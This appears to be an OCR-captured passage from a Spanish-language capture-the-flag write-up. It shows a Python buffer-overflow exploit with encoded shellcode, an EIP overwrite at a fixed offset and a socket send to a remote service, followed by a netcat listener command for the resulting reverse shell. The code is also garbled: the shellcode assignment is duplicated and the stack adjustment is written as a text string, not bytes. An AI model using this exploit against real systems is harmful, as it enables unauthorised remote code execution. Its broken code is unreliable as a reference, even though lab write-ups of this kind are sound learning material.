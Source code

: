 ```python
def executeExploit():
    shellcode = (shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
        b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
        b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
        b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
        b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
        b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
        b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
        b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
        b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
        b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
        b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
        b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
        b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
        b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
        b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
        b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
        b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
        b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
        b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
        b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
        b"\xb7\xa6\x81\x5a\xb8\xe2\x77\x82\x09\x5b\xce\xbd\xa6\x0b\xc6"
        b"\xc6\xda\xab\x29\x1d\x5f\xdb\x63\x3f\xf6\x74\x2a\xaa\x4a\x19"
        b"\xcd\x01\x88\x24\x4e\xa3\x71\xd3\x4e\xc6\x74\x9f\xc8\x3b\x05"
        b"\xb0\xbc\x3b\xba\xb1\x94"))
    offset = 1052
    before_eip = b"A" * offset
    eip = pack("<I", 0x68a98a7b)

    payload = before_eip + eip + b"83ec10" + shellcode

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

## Privilege Escalation {-}

### Rootear la maquina {-}

#### Etapa final: Ejecucion del script final {-}

1. Nos ponemos en escucha en el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```
